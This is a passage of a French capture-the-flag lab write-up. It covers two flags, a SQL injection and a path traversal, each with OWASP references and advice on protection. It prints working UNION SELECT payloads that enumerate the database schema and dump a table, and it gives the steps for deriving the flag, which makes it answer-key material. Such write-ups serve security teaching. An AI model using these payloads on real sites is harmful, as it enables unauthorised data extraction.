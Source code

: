 ## 6) Flag "injection_sql_search_image"
### Etapes pour trouver le flag
1. Meme principe que ci-dessus, dans le champ de la page searching. Injection : 
```sql
5 UNION SELECT null, database()
```
2. Injection : 
```sql 
5 UNION SELECT null, table_name FROM information_schema.tables WHERE table_schema=database() -> list_images
```
3. Injection : 
```sql 
5 UNION SELECT null, column_name FROM information_schema.columns WHERE table_schema=database()
```
4. Injection : 
```sql 
5 UNION SELECT null, concat(id, CHAR(10), url, CHAR(10), title, CHAR(10), comment) FROM list_images
```
5. Affichage de : 
1928e8083cf461a51303633093573c46 et Decrypt this password -> then lower the char. Sh256 on it and it's good !

### Description
idem que ci-dessus

### OWASP associés
idem que ci-dessus

### Comment s'en protéger
idem que ci-dessus

## 7) Flag "path_traversal"
### Etapes pour trouver le flag
1. Tenter de remonter dans l'arborescence du site en ajoutant des ../../
2. Entrer le chemin d'acces cf. Ressouces/path_traversal

### Description
Cette technique consiste à accéder à des répertoires ou fichiers non autorisés en manipulant les chemins d'accès, souvent en utilisant des chemins relatifs pour contourner les restrictions de sécurité du site.

### OWASP associés
1. OWASP A01:2021 - Broken Access Control

### Comment s'en protéger
1. Valider les entrées utilisateur
2. Restreindre les fichiers accessibles 
3. Contrôler les permissions d'accès aux fichiers et répertoires 
4. Utiliser un pare-feu d'application web (WAF) 
5. Ne pas exposer de messages d'erreur détaillé
